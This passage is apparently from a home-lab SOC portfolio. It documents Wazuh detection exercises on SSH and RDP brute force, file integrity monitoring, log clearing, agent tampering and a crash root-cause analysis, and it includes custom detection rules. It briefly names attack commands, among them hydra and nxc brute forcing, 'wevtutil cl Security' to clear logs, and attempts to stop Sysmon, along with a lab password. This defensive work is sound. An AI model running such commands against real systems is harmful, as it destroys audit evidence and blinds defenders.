On 13 Oct, a full chain (discovery, then account creation, Run key and scheduled task persistence) was detected within about four minutes. Together with this exercise, six custom rules covered six MITRE techniques (see the [detection summary](#-detection-summary)).

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-08/EX8-18-mitre-overview.png"></a><br><sub>MITRE ATT&CK overview</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-08/EX8-19-attack-timeline.png"></a><br><sub>Attack timeline</sub></td>
  </tr>
</table>

---

## Exercise 9: Linux SSH Brute Force and Successful Login

**Scenario:** an attacker on Kali (10.10.10.130) brute-forced SSH on the Ubuntu 26.04 Wazuh server, logged in with the cracked password, and tried to escalate to root. A lab-only user (`testuser`) was used so no real credentials appear anywhere.

**Attack timeline (UTC):**
- 15:35:04 to 15:35:11: hydra tried 16 passwords from 4 parallel source ports
- 15:35:12: password cracked
- 15:36:42: attacker logged in over SSH and ran `whoami`, `id`, `hostname`, `sudo -l`

**Detections:**

| Rule | Level | Detects | MITRE |
|---|---|---|---|
| 5902 / 5901 | 8 | New user / group created | T1136 |
| 5760 / 5503 | 5 | Failed SSH password | T1110.001 |
| 5763 / 2502 | 10 | SSH brute force | T1110 |
| 40112 | 12 | Failures followed by a success | T1078, T1110 |
| **100800 (custom)** | **14** | **SSH brute force that SUCCEEDED** | **T1110.001, T1078** |

**Custom rule 100800:** child of built-in rule 40112, matches `Accepted password`, raises the alert to level 14. The first version used `<match>sshd</match>` and never fired: Wazuh's predecoder moves the program name (`sshd-session`) into its own field, and `<match>` only checks the remaining message. Fixed and re-tested.

```xml
<rule id="100800" level="14">
  <if_sid>40112</if_sid>
  <match>Accepted password</match>
  <description>SSH brute force SUCCEEDED: $(dstuser) logged in from $(srcip) after multiple failures</description>
  <mitre>
    <id>T1110.001</id>
    <id>T1078</id>
  </mitre>
</rule>
```

**Findings:**
- **Visibility gap:** sudo-rs on Ubuntu 26.04 did not log denied `sudo` attempts by a non-sudoer, so no alert was possible. Planned fix: auditd.
- A later login with the stolen password (no failures first) produced only a level 3 alert: stolen credentials look like normal logins.
- Dashboard DQL `agent.id:000` returns nothing (parsed as a number); `agent.name:soc-wazuh` works.
- Server logs are UTC while the dashboard shows local time (UTC+2), so timelines must state the timezone.

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-09/EX9-03-hydra-success.png"></a><br><sub>hydra cracks the password</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-09/EX9-05-wazuh-ssh-bruteforce-events.png"></a><br><sub>SSH brute force events in Wazuh</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-09/EX9-09-rule-100800-mitre.png"></a><br><sub>Rule 100800 with MITRE mapping</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-09/EX9-10-sudo-visibility-gap.png"></a><br><sub>sudo visibility gap</sub></td>
  </tr>
</table>
<details>
<summary><b>More screenshots</b> (13)</summary>
<br>

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-09/EX9-01-linux-auth-log-grep.png"></a><br><sub>auth.log on the server</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-09/EX9-01b-successful-logins-baseline.png"></a><br><sub>Baseline of successful logins</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-09/EX9-02-linux-new-user-alert.png"></a><br><sub>New Linux user alert</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-09/EX9-02b-new-user-dashboard.png"></a><br><sub>New user on the dashboard</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-09/EX9-02c-new-user-alert-details.png"></a><br><sub>New user alert details</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-09/EX9-04-attacker-ssh-session.png"></a><br><sub>Attacker SSH session</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-09/EX9-05a-attack-overview-dashboard.png"></a><br><sub>Attack overview dashboard</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-09/EX9-06-auth-log-timeline.png"></a><br><sub>auth.log timeline</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-09/EX9-07-rule-100800-xml.png"></a><br><sub>Rule 100800 XML</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-09/EX9-08-rule-100800-fired.png"></a><br><sub>Rule 100800 fired</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-09/EX9-08a-rule-100800-cli-proof.png"></a><br><sub>Rule 100800 proof from the CLI</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-09/EX9-10a-attacker-sudo-attempt.png"></a><br><sub>Attacker sudo attempt</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-09/EX9-11-user-deleted-alert.png"></a><br><sub>Lab user deleted alert</sub></td>
  </tr>
</table>

</details>

---

## Exercise 10: File Integrity Monitoring and Startup Persistence

**Goal:** detect tampering of sensitive files and persistence through the Windows Startup folder, and close the gaps left by Wazuh's built-in FIM rules.

**What I did:**
- Enabled Wazuh FIM (syscheck) in **whodata** mode on the Windows 11 endpoint for a sensitive `C:\FIM-Test\Finance` folder (with `report_changes` for content diffs) and both Windows Startup folders.
- Added, modified and deleted files and verified built-in rules 554, 550 and 553. Whodata captured the user (`socadmin`), the process (`powershell.exe` and its PID) and the exact line added to the file.
- Simulated persistence by dropping a harmless `WindowsUpdateHelper.bat` into the user's Startup folder (T1547.001).
- Cross-checked with Sysmon (Event 11) to compare endpoint telemetry with FIM.

**Findings:**

| Activity | Built-in rule | Level | MITRE |
|---|---|---|---|
| File added to the Startup folder | 554 | 5 | none |
| Finance file modified | 550 | 7 | T1565.001 |
| Finance file deleted | 553 | 7 | T1070.004, T1485 |

**Detection gap:** the persistence file raised only a level 5 alert with no MITRE mapping, and tampering with a sensitive Finance file looked the same as any routine file change (level 7). The modify, delete and Startup drop all came from the same PowerShell process ID, which ties them into one attack chain.

**Custom rules:**

```xml
<group name="local,syscheck,fim,">

  <rule id="100900" level="10">
    <if_sid>550, 553</if_sid>
    <field name="file" type="pcre2">(?i)c:\\fim-test\\finance\\</field>
    <description>FIM: Sensitive Finance file modified or deleted: $(file)</description>
    <mitre>
      <id>T1565.001</id>
    </mitre>
  </rule>

  <rule id="100910" level="12">
    <if_sid>554</if_sid>
    <field name="file" type="pcre2">(?i)\\start menu\\programs\\startup\\</field>
    <description>FIM: File added to Windows Startup folder - possible persistence: $(file)</description>
    <mitre>
      <id>T1547.001</id>
    </mitre>
  </rule>

</group>
```

**Result:**

| Activity | Before | After |
|---|---|---|
| Finance file modified or deleted | 550 / 553, level 7 | **100900, level 10** |
| File added to a Startup folder | 554, level 5, no MITRE | **100910, level 12, T1547.001** |

Both rules fired with the full file path in the description. The Startup alert now appears under "Level 12 or above" and in the MITRE ATT&CK view as Persistence.

**Troubleshooting and lessons:**
- **Dashboard field names are not rule field names.** The dashboard shows `syscheck.path`, but inside a rule the FIM path field is `file`. My first version of rule 100900 never fired until I fixed this (the description variable too: `$(file)`).
- **Slow lab VM:** `systemctl restart wazuh-manager` timed out and left an orphaned `wazuh-apid`. Running `wazuh-control stop` and then `systemctl start` worked reliably.
- **FIM and Sysmon complement each other.** A stray copy of the test file created in `C:\` was missed by FIM (folder not monitored) but caught by Sysmon (rule 92203). Sysmon flagged the Startup file (rule 92201, level 9) but mapped it to T1105/T1059, not persistence.
- **Endpoint crash investigation:** the Windows 11 VM blue-screened (bugcheck 0x124) several times during the lab. Using Event IDs 41, 6008 and 1001 I confirmed the crashes and ruled out the FIM config, nested virtualization, the CPU layout and host hardware (no host WHEA errors). Wazuh raised **no alert** for the crashes: a second detection gap. Event ID 1001 exists in two logs (System bugcheck vs Application Windows Error Reporting), so channel and provider must be checked, not just the Event ID.

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-10/EX10-07a.png"></a><br><sub>Startup drop: built-in rule 554, level 5, no MITRE</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-10/EX10-10.png"></a><br><sub>Custom rule 100910: level 12, T1547.001</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-10/EX10-05b.png"></a><br><sub>Whodata: user, process and file diff</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-10/EX10-11.png"></a><br><sub>Custom FIM rules in the MITRE view</sub></td>
  </tr>
</table>
<details>
<summary><b>More screenshots</b> (17)</summary>
<br>

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-10/EX10-01.png"></a><br><sub>Default agent FIM configuration</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-10/EX10-02.png"></a><br><sub>New FIM directories in ossec.conf</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-10/EX10-03.png"></a><br><sub>Whodata engine started</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-10/EX10-04.png"></a><br><sub>Rule 554: file added, with whodata</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-10/EX10-05a.png"></a><br><sub>Rule 550: Finance file modified</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-10/EX10-06a.png"></a><br><sub>Rule 553: file deleted</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-10/EX10-06b.png"></a><br><sub>Rule 553 MITRE mapping</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-10/EX10-07b.png"></a><br><sub>Startup drop alert details</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-10/EX10-07c.png"></a><br><sub>Sysmon Event 11 alerts</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-10/EX10-08.png"></a><br><sub>Custom rules 100900 and 100910</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-10/EX10-09.png"></a><br><sub>Custom rule 100900: level 10</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-10/EX10-12.png"></a><br><sub>Cleanup: Startup folder empty</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-10/EX10-TS-01-crash-events.png"></a><br><sub>Crash events (41, 6008, 1001)</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-10/EX10-TS-02-crash-events.png"></a><br><sub>Crash events (continued)</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-10/EX10-TS-03.png"></a><br><sub>No Wazuh alert for the crashes</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-10/EX10-TS-04.png"></a><br><sub>VM CPU layout change</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-10/EX10-TS-05.png"></a><br><sub>Side channel mitigations disabled</sub></td>
  </tr>
</table>

</details>

---

## Exercise 11: Defense Evasion and Endpoint Health

**Goal:** detect the moves an attacker makes to blind the SOC after gaining access, clearing the event logs, stopping security tools, and crashing or powering off the endpoint, and decide for each whether a custom rule is actually warranted.

**Method:** before writing any rule I verified the log pipeline with archives (`logall_json`), so I could tell "the event never reached the manager" apart from "the event arrived but no rule matched". Where the built-in coverage was already adequate or the data never arrived, I documented that instead of adding a rule, so every rule I ship corresponds to data that really reaches the SIEM.

### 11.1 Event log clearing (T1070.001)

**Attack:** cleared the Security log (`wevtutil cl Security`) and the Sysmon log, which Windows itself records.

| Cleared | Event | Built-in rule | Level | MITRE |
|---|---|---|---|---|
| Security log | 1102 | 63103 "The audit log was cleared" | 5 | T1070 |
| Sysmon log | 104 | 63104 "A Windows log file was cleared" | 5 | T1070 |

**Gap:** both fired but only at **level 5**, and mapped to the parent technique T1070, not the sub-technique. The account that cleared the log (`socadmin`) was visible in the alert.

**Custom rule 100930:** child of 63103 / 63104, raises both to level 12 and maps them to T1070.001.

```xml
<group name="local,windows,defense_evasion,">
  <rule id="100930" level="12">
    <if_sid>63103,63104</if_sid>
    <field name="win.system.eventID">^1102$|^104$</field>
    <description>Windows event log cleared ($(win.system.channel)) - attacker clearing tracks (Event $(win.system.eventID))</description>
    <mitre>
      <id>T1070.001</id>
    </mitre>
  </rule>
</group>
```

**Result:** both log-clear events fired rule 100930 at level 12, shown in the MITRE view as "Clear Windows Event Logs".

### 11.2 Stopping Sysmon (T1562.001), a positive finding

I tried to stop the Sysmon service four ways: `Stop-Service`, `sc.exe stop`, `Stop-Process -Force`, and PsExec running as SYSTEM. **All were denied.** Sysmon64 is a self-protected service that cannot be stopped from Administrator or even SYSTEM; an attacker would have to use Sysmon's own `-u` unload or a config reload. I documented this as a positive finding (endpoint telemetry cannot be trivially killed) rather than forcing it, and did not write the planned Sysmon-stop rule, because the "service stopped" event never occurred.

### 11.3 Stopping the Wazuh agent (T1562.001)

Stopping the agent is the most dangerous move: with the agent down, the SOC is blind to that endpoint.

- Built-in rule **506 "Wazuh agent stopped"** fired, with the correct MITRE mapping (T1562.001), but only at **level 3**. Gap: the severity is far too low for an event that blinds the SOC. A tuned child of rule 506 at level 12 was added in Exercise 18 (101550).
- **Second finding:** a System event written *while the agent was stopped* never reached the manager, and was not recovered after the agent restarted. The agent does not replay Windows EventChannel events it missed while down, so anything that happens during an agent outage is a permanent blind spot.

### 11.4 Unexpected shutdown and crash (T1529), a visibility gap

During this exercise the Windows 11 VM crashed twice (the recurring 0x124 WHEA bugcheck) and was hard-powered-off once. Windows logged the expected System events: **41 (Kernel-Power)** and **6008 (unexpected shutdown)**.

But Wazuh showed **0 alerts**, and the archives contained **no 41/6008 events at all**, even though the pipeline was confirmed live at the same moment (a test event written seconds earlier did reach the archives). The reason: these events are written just before shutdown or at the next boot, while the agent is down, and the agent never recovers them, the same behaviour as the missed event in 11.3.

**Decision:** I did **not** write the planned crash-detection rules. Writing a rule for data that never reaches the manager would be theatre, not detection. Instead this is documented as a **visibility gap**, with possible future fixes: agent-side bookmark persistence, or host/hypervisor-level monitoring that does not depend on the guest's own agent.

**Pipeline lesson (a repeat of Exercise 8):** after a crash the agent showed as "Active" but sent no EventChannel logs; the archive held only SCA and rootcheck data. `Stop-Service` timed out but did stop the service, and `Start-Service` restored the log flow. "Active" is not enough, I verify that real events are actually arriving. On this slow HDD VM the reliable restart is always `wazuh-control stop` (removing a leftover `start-script-lock` directory if present) followed by `systemctl start`, never `restart`.

**Rules shipped this exercise:** 100930 only. The crash and Sysmon-stop rules were deliberately not written, for the reasons above, an honest scope where every rule maps to data that reaches the SIEM.

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-11/EX11-05%281102%29.png"></a><br><sub>Security log cleared: built-in 63103, level 5</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-11/EX11-14.png"></a><br><sub>Rule 100930: level 12, Clear Windows Event Logs</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-11/EX11-09.png"></a><br><sub>Agent stopped: built-in 506, level 3</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-11/EX11-12.png"></a><br><sub>Crash/shutdown: 0 alerts (visibility gap)</sub></td>
  </tr>
</table>
<details>
<summary><b>More screenshots</b> (14)</summary>
<br>

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-11/EX11-02.png"></a><br><sub>Agent log channels (no System query)</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-11/EX11-03.png"></a><br><sub>Test event reaches archives (pipeline check)</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-11/EX11-04.png"></a><br><sub>wevtutil log-clear commands</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-11/EX11-06%28104%29.png"></a><br><sub>Sysmon log cleared: built-in 63104, level 5</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-11/EX11-07.png"></a><br><sub>Sysmon stop denied, even as SYSTEM</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-11/EX11-10.png"></a><br><sub>Event written while agent stopped</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-11/EX11-10b.png"></a><br><sub>That event never recovered (blind spot)</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-11/EX11-11.png"></a><br><sub>Windows logged crash events 41 and 6008</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-11/EX11-13.png"></a><br><sub>Crash events never reached the archives</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-11/EX11-15.png"></a><br><sub>Rule 100930 events: both log clears, level 12</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-11/EX11-16%20%28cleanup%20proof%29.png"></a><br><sub>Cleanup: tools running, PsExec removed</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-11/EX11-01.png"></a><br><sub>Crash watch at lab start</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-11/EX11-03a.png"></a><br><sub>Test event created on the endpoint</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-11/EX11-TS-02.png"></a><br><sub>Pipeline stall after crash: archives missing EventChannel</sub></td>
  </tr>
</table>

</details>

---

## Exercise 12: Endpoint Stability Troubleshooting (0x124 WHEA Crash)

**Problem:** The Windows 11 endpoint kept crashing with bugcheck `0x124` (WHEA_UNCORRECTABLE_ERROR). Every crash stopped the Wazuh agent and interrupted detection work, and Exercise 11 showed that events from a crashed endpoint never reach the SIEM. A stable endpoint is a prerequisite for detection.

**Approach:** Change one variable at a time, test each hypothesis with a repeatable test, and record every result in a crash log.

### 1. Ruling out the obvious suspect: heat

The host fan spiked before each crash, so CPU heat was the first hypothesis. With HWiNFO64 on the host, I ran CPU stress tests inside the VM with no settings changed:

| Test | Conditions | Max CPU temp | Crash |
|---|---|---|---|
| 1 | Endpoint only, 5 min | 102 C | No |
| 2 | Endpoint + Wazuh, 5 min | 100 C | No |
| 3 | Endpoint + Wazuh, 45 min | 100 C | No |

About 55 minutes at the CPU's thermal limit, host WHEA errors 0, and no crash. **Heat alone did not reproduce the fault**, so it was not the root cause.

### 2. Building a crash timeline from the Event Log

```powershell
Get-WinEvent -FilterHashtable @{LogName='System'; Id=41,1001,6005,6008; StartTime='2026-11-01'} |
  Sort-Object TimeCreated | Format-Table TimeCreated, Id, ProviderName -AutoSize
```

Event 6005 (boot), 41 (Kernel-Power), 6008 (unexpected shutdown) and 1001 (BugCheck `0x124`, parameter 1 = `0x10`, dump saved) gave two crashes on one day, roughly 20 and 40 minutes after boot.

### 3. Root cause from the crash dump (WinDbg)

`!analyze -v` on `MEMORY.DMP`:

- **Arg1 = `0x10`: Device Driver Error.** The error was reported by a driver, not by a CPU machine check.
- The crash stack, read bottom to top:

```
storport!RaidHierarchicalResetWorkRoutine     <- disk stopped responding, reset started
stornvme!NVMeHwResetBus / NVMeControllerReset  <- virtual NVMe controller reset
storport!StorpMarkDeviceFailed                 <- reset failed, device marked failed
storport!StorpWheaReportError
nt!WheaReportFatalHwErrorDeviceDriverEx        <- reported as a fatal hardware error
nt!KeBugCheckEx                                <- 0x124
```

The `GenuineIntel.sys` failure bucket is a misleading default label; the real actor is the NVMe storage driver.

**Confirmation:** the System log showed `stornvme` **Event 129** (reset to device) on three separate days before the crashes, so the virtual disk had been timing out repeatedly.

**Root cause:** the endpoint's virtual disk used a virtual NVMe controller and its files sat on the host's slow HDD. Under load, disk I/O stalled long enough for Windows to reset the controller; when the reset failed, the driver raised a fatal WHEA error. This also explains why the CPU stress tests never crashed it: they did not touch the disk. The Wazuh server VM, on the same HDD but with a SATA virtual disk, never crashed.

### 4. Fix (one change only)

Moved only the endpoint VM from the HDD to the host SSD (`robocopy`, 130 files / 86 GB, 0 failed) and re-registered it in VMware with *I Moved It*, so its identity, IP and Wazuh agent stayed the same. No other VM setting was changed, so the disk is the only variable.

### 5. Validation

With Wazuh running, a 30-minute write-through disk test wrote about **574 GB** (2295 blocks of 256 MB):

- No crash, host WHEA errors 0
- **0 `stornvme` Event 129** since boot

The fix will keep being monitored over the next lab sessions before the old HDD copy is removed.

### Screenshots

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-12/EX12-06-stress3-45min-no-crash.png"></a><br><sub>45-minute CPU stress, no crash</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-12/EX12-08-windbg-analyze-device-driver-error.png"></a><br><sub>WinDbg: Arg1 0x10, Device Driver Error</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-12/EX12-09-windbg-stack-stornvme.png"></a><br><sub>Crash stack: stornvme reset, WHEA fatal, 0x124</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-12/EX12-11-eventlog-stornvme-129-resets.png"></a><br><sub>stornvme Event 129 disk resets before the fix</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-12/EX12-15-disk-test-30min-ssd-no-crash.png"></a><br><sub>After the fix: 30-minute disk test, no crash</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-12/EX12-16-event129-zero-after-ssd.png"></a><br><sub>After the fix: 0 disk resets since boot</sub></td>
  </tr>
</table>

<details>
<summary>More screenshots</summary>

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-12/EX12-01-boot-101C.png"></a><br><sub>Boot temperature, host WHEA 0</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-12/EX12-02-stress1-no-crash.png"></a><br><sub>Stress test 1, no crash</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-12/EX12-03-stress2-wazuh-on-no-crash.png"></a><br><sub>Stress test 2 with Wazuh, no crash</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-12/EX12-04-crash-timeline-eventlog.png"></a><br><sub>Crash timeline from the Event Log</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-12/EX12-05-bugcheck-0x124-details.png"></a><br><sub>BugCheck 0x124 details</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-12/EX12-07-windbg-dump-loaded-uptime-20min.png"></a><br><sub>Dump loaded, uptime 20 minutes</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-12/EX12-10-windbg-failure-bucket.png"></a><br><sub>Failure bucket</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-12/EX12-12-before-move-nvme-on-hdd.png"></a><br><sub>Before: NVMe disk on HDD</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-12/EX12-13-robocopy-to-ssd.png"></a><br><sub>robocopy to SSD, 0 failed</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-12/EX12-14-after-move-vm-on-ssd.png"></a><br><sub>After: VM on SSD</sub></td>
  </tr>
</table>

</details>

---

## Exercise 13: RDP Brute Force and Successful Remote Logon

**Scenario:** an attacker on Kali (10.10.10.130) brute-forced RDP on the Windows 11 endpoint, logged in with the cracked password to open a real remote desktop, then signed out. A lab-only user (`rdptest`) was used so no real credentials appear anywhere. This is the Windows/RDP counterpart to the Linux SSH detection in Exercise 9.

**Why it matters:** RDP is one of the most attacked services on the internet and a favourite entry point for ransomware. Failed logons are just noise; the alert that matters is the moment a brute force *succeeds* and the attacker is inside.

**Attack:**
- Recon: `nmap -p 3389` confirmed `3389/tcp open ms-wbt-server` (with NLA enabled).
- Brute force: `nxc rdp` with a short wordlist (8 wrong + 1 correct, kept under the 10-attempt lockout) cracked `rdptest:Summer2026!`.
- Login: `xfreerdp3` opened a real RDP desktop as `rdptest`; `whoami` confirmed the session.

**Investigation (confirmed every rule ID on the dashboard, no guessing):**

| Event | Meaning | Built-in rule | Level | MITRE |
|---|---|---|---|---|
| 4625, logon type 3 | Failed logon (NLA checks the password at network level *before* the desktop opens, so failures show as type 3, not 10) | 60122 | 5 | T1110.001 |
| Multiple 4625 | Brute-force correlation | 60204 | 10 | T1110 |
| 4624, logon type 10 | Successful RemoteInteractive (real RDP desktop) | 92653 | 3 | T1021.001 |

**Detection gap:** the same IP produced 8 failures and then a successful RDP login, but that success was only a **level 3** alert (92653), easy to miss in a busy SOC. Unlike SSH (which has built-in rule 40112 for "failures then success"), Windows RDP had no high-severity "brute force succeeded" alert.

**Custom rules:**

```xml
<group name="local,windows,authentication,">

  <rule id="101000" level="6">
    <if_sid>92653</if_sid>
    <field name="win.eventdata.logonType">^10$</field>
    <description>RDP remote interactive logon: $(win.eventdata.targetUserName) from $(win.eventdata.ipAddress)</description>
    <mitre>
      <id>T1021.001</id>
    </mitre>
  </rule>

  <rule id="101010" level="14" timeframe="300">
    <if_sid>101000</if_sid>
    <if_matched_sid>60204</if_matched_sid>
    <same_field>win.eventdata.ipAddress</same_field>
    <description>RDP brute force succeeded: $(win.eventdata.targetUserName) logged in from $(win.eventdata.ipAddress) after repeated failed logons</description>
    <mitre>
      <id>T1110.001</id>
      <id>T1021.001</id>
      <id>T1078</id>
    </mitre>
    <group>authentication_success,</group>
  </rule>

</group>
```

**Logic:** rule 101000 labels every RDP desktop logon (type 10). Rule 101010 fires only when a type-10 logon comes from the **same source IP** that triggered the multiple-failures alert (60204) in the previous 5 minutes, raising it to **level 14**.

**Result:** on re-test, rule 101010 fired at level 14 from 10.10.10.130, mapped to T1110.001, T1021.001 and T1078. Only 101010 shows, because the correlation rule consumes the 101000 alert into itself; its presence proves 101000 fired too.

**Lessons:**
- The guide's assumed rule ID for the RDP success (60106) was **wrong**; confirming it on the dashboard gave the real one, **92653**. Always verify IDs against live events before writing a rule.
- Rule field names use `win.eventdata.*`, not the dashboard's `data.win.eventdata.*` form.
- On this slow-HDD Wazuh VM, `systemctl start wazuh-manager` silently fails; `sudo /var/ossec/bin/wazuh-control start` reliably brings all daemons up (after removing a leftover `start-script-lock` if present).

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-13/EX13-11-rule-101010-fired.png"></a><br><sub>Rule 101010 fired at level 14</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-13/EX13-12-mitre-view.png"></a><br><sub>MITRE mapping: T1110.001, T1021.001, T1078</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-13/EX13-05-nxc-rdp-bruteforce.png"></a><br><sub>RDP brute force from Kali (nxc)</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-13/EX13-07-4625-failures.png"></a><br><sub>Failed logons (4625) and brute-force correlation</sub></td>
  </tr>
</table>
<details>
<summary><b>More screenshots</b> (11)</summary>
<br>

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-13/EX13-01-crash-watch.png"></a><br><sub>Crash watch at lab start (clean after SSD move)</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-13/EX13-02-rdp-enabled.png"></a><br><sub>RDP enabled, port 3389 listening</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-13/EX13-03-lockout-and-audit-policy.png"></a><br><sub>Lockout threshold and logon audit policy</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-13/EX13-04-nmap-3389-open.png"></a><br><sub>nmap: 3389 open (ms-wbt-server)</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-13/EX13-06-rdp-session-as-rdptest.png"></a><br><sub>RDP desktop session as rdptest (whoami)</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-13/EX13-07b-4625-json.png"></a><br><sub>4625 detail: logon type 3, attacker IP</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-13/EX13-08-multiple-failures.png"></a><br><sub>Multiple failures correlation (rule 60204, T1110)</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-13/EX13-09-4624-type10-success.png"></a><br><sub>Successful RDP logon (4624 type 10, rule 92653)</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-13/EX13-09b-4624-type10-success.png"></a><br><sub>4624 detail: logon type 10, attacker IP</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-13/EX13-10-local-rules-101000-101010.png"></a><br><sub>Custom rules 101000 and 101010 in local_rules.xml</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-13/EX13-13-cleanup-rdp-off-user-deleted.png"></a><br><sub>Cleanup: rdptest deleted, RDP disabled, port closed</sub></td>
    <td></td>
  </tr>
</table>

</details>

---

## Exercise 14: Automated Response with Wazuh Active Response

